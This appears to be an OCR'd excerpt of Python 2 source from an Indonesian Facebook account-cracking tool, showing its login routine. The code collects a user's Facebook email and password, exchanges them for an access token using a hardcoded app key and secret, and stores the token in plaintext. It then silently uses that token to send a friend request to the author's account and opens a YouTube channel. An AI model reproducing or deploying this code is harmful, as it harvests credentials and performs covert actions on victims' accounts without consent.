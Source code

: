 listgrup = []
vulnot = '\x1b[31mNot Vuln'
vuln = '\x1b[32mVuln'


def login():
    os.system('clear')
    try:
        toket = open('login.txt', 'r')
        menu()
    except (KeyError, IOError):
        os.system('clear')
        print logo
        print 52 * '\x1b[1;97m\xe2\x95\x90'
        print '\x1b[1;91m[\xe2\x98\x86] \x1b[1;92mMASUK AKUN FACEBOOK \x1b[1;91m[\xe2\x98\x86]'
        id = raw_input('\x1b[1;91m[+] \x1b[1;36mEmail \x1b[1;91m:\x1b[1;92m ')
        pwd = getpass.getpass('\x1b[1;91m[+] \x1b[1;36mSandi \x1b[1;91m:\x1b[1;92m ')
        tik()
        try:
            br.open('https://m.facebook.com')
        except mechanize.URLError:
            print '\n\x1b[1;91m[!] Tidak Ada Koneksi'
            keluar()

        br._factory.is_html = True
        br.select_form(nr=0)
        br.form['email'] = id
        br.form['pass'] = pwd
        br.submit()
        url = br.geturl()
        if 'save-device' in url:
            try:
                sig = 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=' + id + 'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=' + pwd + 'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
                data = {'api_key': '882a8490361da98702bf97a021ddc14d', 'credentials_type': 'password', 'email': id, 'format': 'JSON', 'generate_machine_id': '1', 'generate_session_cookies': '1', 'locale': 'en_US', 'method': 'auth.login', 'password': pwd, 'return_ssl_resources': '0', 'v': '1.0'}
                x = hashlib.new('md5')
                x.update(sig)
                a = x.hexdigest()
                data.update({'sig': a})
                url = 'https://api.facebook.com/restserver.php'
                r = requests.get(url, params=data)
                z = json.loads(r.text)
                zedd = open('login.txt', 'w')
                zedd.write(z['access_token'])
                zedd.close()
                print '\n\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mLogin success'
                requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=' + z['access_token'])
                os.system('xdg-open https://www.youtube.com/channel/UCpVqkAi_sqVf-ZPwzRjME0Q')
                time.sleep(1)
                menu()
            except requests.exceptions.ConnectionError:
                print '\n\x1b[1;91m[!] Tidak Ada Koneksi'
                keluar()
